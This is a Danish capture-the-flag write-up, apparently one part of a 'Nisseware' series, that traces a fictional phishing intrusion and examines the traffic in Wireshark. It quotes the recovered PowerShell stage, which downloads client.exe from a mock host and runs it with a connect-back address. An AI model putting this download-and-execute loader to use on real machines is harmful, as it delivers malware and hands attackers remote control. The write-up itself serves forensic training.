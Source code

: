 # Writeup

Vi har nu i [Nisseware: Phishing](../nisseware-phishing/) set, hvordan `N1ss3b4nd3n` får initial access gennem en macro i et maldoc og derfra henter en dynamisk payload URL fra http://raw.githubusercontent.com/N1ss3b4nd3n/N1ss3b4nd3n/main/README.md. I [Nisseware: Loading](../nisseware-loading/) kom vi frem til, at følgende payload fra https://pastebin.com/raw/GXvNcLqw var det faktiske payload i sagen:

```ps1
(New-Object System.Net.WebClient).DownloadFile("http://julebal-i-nisseland.jul/client.exe", (Get-Location).Path + "\client.exe")
$path = ((Get-Location).Path + "\client.exe")
$args = "-addr", "n1ss3b4nd3n.jul:8080"
Invoke-Expression "$path $args"
```

Scriptet henter altså tilsyneladende filen `client.exe` over HTTP og eksekverer følgende kommando:

```console
client.exe -addr n1ss3b4nd3n.jul:8080
```

Det må vi kunne se i vores PCAP, så den åbnes i Wireshark, og vi sætter `http` som filter, hvorved vi får et ret overskueligt overblik:

![Wireshark med HTTP filter](img/wireshark-http.png)

Her ser vi først det oprindelige request til `N1ss3b4nd3n`s GitHub, og kort efter har vi som forventet et `GET`-request, der henter `client.exe` fra den fundne URL:

![Wireshark GET request til client.exe](img/wireshark-get-client.png)
